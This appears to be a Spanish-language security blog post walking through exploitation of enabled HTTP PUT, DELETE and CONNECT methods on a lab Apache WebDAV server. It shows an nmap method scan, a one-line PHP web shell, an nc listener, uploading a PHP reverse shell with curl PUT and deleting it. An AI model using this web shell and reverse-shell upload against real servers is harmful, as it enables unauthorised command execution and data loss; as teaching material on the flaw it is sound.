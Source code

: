 ```yaml
---
date: 2022-02-27T17:23:12.000Z
layout: post
comments: true
title: Explotación del método PUT, DELETE y CONNECT
subtitle: 'En HTTP'
description: >-
image: >-
  http://imgfz.com/i/0iKnB5f.gif
optimized_image: >-
  http://imgfz.com/i/0iKnB5f.gif
category: ciberseguridad
tags:
  - burpsuite
  - vulnerabilidad
  - http
  - exploit
  - ataque
  - Hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Antes de iniciar se recomienda sobre las imágenes realizar clic derecho en abir imagen en una pestaña nueva para verla de mejor forma. Ahora para entender este tipo de explotación es necesario conocer que realiza cada uno de estos métodos que lo hacen peligrosos si están habilitados:

* PUT: Puede ser utilizado para introducir archivos maliciosos, con el fin de obtener incluso ejecución remota de comandos o también subir hipervínculos que redirijan a las victimas a sitios web fraudulentos.
* DELETE: Puede ser utilizado para eliminar archivos importantes dentro del servidor web. Lo que provocaria una denegación de servicios (DoS) o perdida de información importante.
* CONNECT: Puede emplearse para tunelizar el tráfico "peer to peer" (P2P) sobre el tráfico HTTP. El atacante se podría aprovechar de esto ocultando el contenido del tráfico por el cual actuaría bajo un usuario autorizado, con el fin de eludir el firewall o autenticaciones.

Burp Suite es una herramienta en dónde cada solicitud HTTP realizada por su navegador se intercepta por un proxy previamente configurado. Con esto se pueden llegar a ver las peticiones que se realizan sobre el servidor web.

Comenzamos realizando un nmap para detectar los métodos disponibles, aunque igualmente se puede realizar con burp suite con OPTIONS:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nmap -p80 --script http-methods 10.1.1.9
Nmap scan report for 10.1.1.9
Host is up (0.00040s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET POST HEAD CONNECT PUT DELETE OPTIONS

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

Como se verifica que tenemos habilitado PUT, procedemos a interceptar con burp suite la página web y realizamos un test inicial con un simple archivo TXT para verificar que la vulnerabilidad se encuentre presente:

![archivotxt](http://imgfz.com/i/XrqLdZ7.png)

![davtxt](http://imgfz.com/i/7BshVRK.png)

Ahora se verifica el método DELETE:

![deletetxt](http://imgfz.com/i/XM596kf.png)

Como ya se comprobó que todo está funcional, procedemos a probar ejecución de comandos con la siguiente linea en php:

```php
<?php echo system($_REQUEST['cmd']); ?>
```

Esto se realiza de la siguiente forma:

![cmdphp](http://imgfz.com/i/Ot40GFm.png)

Como se subió de forma exitosa lo procedemos a abrir y ejecutar comandos:

![ver](http://imgfz.com/i/Y8ArG7f.png)

![cmd](http://imgfz.com/i/dgHaz34.png)

Funciona perfectamente, ahora como ya podemos realizar todo esto se intentará subir un [php malicioso](https://download1510.mediafire.com/fvfmudo0p5gg/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz) para que nos devuelva un terminal interactivo por ```nc```:

Para esto nos ponemos a la escucha por el puerto que uno quiera:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nc -nlvp 443
```
Ahora procedemos a editar el .php cambiando los parámetros por nuestra IP y puerto:

![edit](http://imgfz.com/i/v3VozZH.png)

Una vez realizado esto lo subiremos por medio de curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl http://10.1.1.9/dav/ --upload-file ./php-reverse-shell.php -v     
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> PUT /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 5489
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Date: Sun, 27 Feb 2022 21:34:13 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Location: http://10.1.1.9/dav/php-reverse-shell.php
< Content-Length: 279
< Content-Type: text/html; charset=ISO-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /dav/php-reverse-shell.php has been created.</p>
<hr />
<address>Apache/2.2.8 (Ubuntu) DAV/2 Server at 10.1.1.9 Port 80</address>
</body></html>
* Connection #0 to host 10.1.1.9 left intact
```
Como se realizó de forma exitosa lo procedemos a ejecutar:

![revphp](http://imgfz.com/i/1NX9cjf.png)
![execphp](http://imgfz.com/i/lNVRG4a.png)
![ncphp](http://imgfz.com/i/TpBctnh.png)

Y funcionó perfectamente. Ahora borraremos el .php con curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl -X DELETE http://10.1.1.9/dav/php-reverse-shell.php -v          
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> DELETE /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Date: Sun, 27 Feb 2022 21:38:55 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Content-Length: 0
< Content-Type: application/x-httpd-php
< 
* Connection #0 to host 10.1.1.9 left intact
```
![delrevphp](http://imgfz.com/i/q0rVNAG.png)

Se borra correctamente. Y se demuestra la vulnerabilidad presente. 



